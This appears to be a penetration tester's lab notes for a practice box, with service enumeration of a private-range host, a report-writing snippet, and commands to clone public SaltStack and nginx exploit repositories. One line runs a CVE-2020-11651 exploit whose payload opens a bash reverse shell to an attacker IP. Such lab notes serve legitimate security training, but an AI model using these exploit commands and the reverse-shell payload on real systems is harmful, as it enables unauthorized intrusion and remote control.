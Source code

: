 ## Intel

IP: 192.168.248.62
OS:
Arch:
Hostname:
DNS:
Domain: 
Domain SID:
Machine Purpose:
Services: 22,53,80, 4505-6?, 8000
Service Languages:
Email Address & Formatting:
Username Format:

Report writing help
```
ls -1 Screenshots | awk '{print"![]("$1")"}'
```


## Objectives
What do have in the solutions inventory to meet large network objective?

## Solution Inventory Map
Section to solve 

#### 53 

NLnet Labs NSD
- no domain name?
#### 80
/admin/ 
django + nginx 1.16.1 both 80+8000
mezzanine 

8000:
- httponly flag not set login
## Data 

#### Credentials

#### Intel

#### Local Inventory

#### Todo



#### Done


```bash
git clone https://github.com/stark0de/nginxpwner.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```



```bash
git clone https://github.com/dozernz/cve-2020-11651.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt
# did not work
python3 CVE-2020-11651.py 192.168.242.62 master '/bin/bash -i >& /dev/tcp/192.168.45.191/4444 0>&1'
```


```bash
git clone https://github.com/Al1ex/CVE-2020-11652.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt
python3 CVE-2020-11652.py -h # for help
```
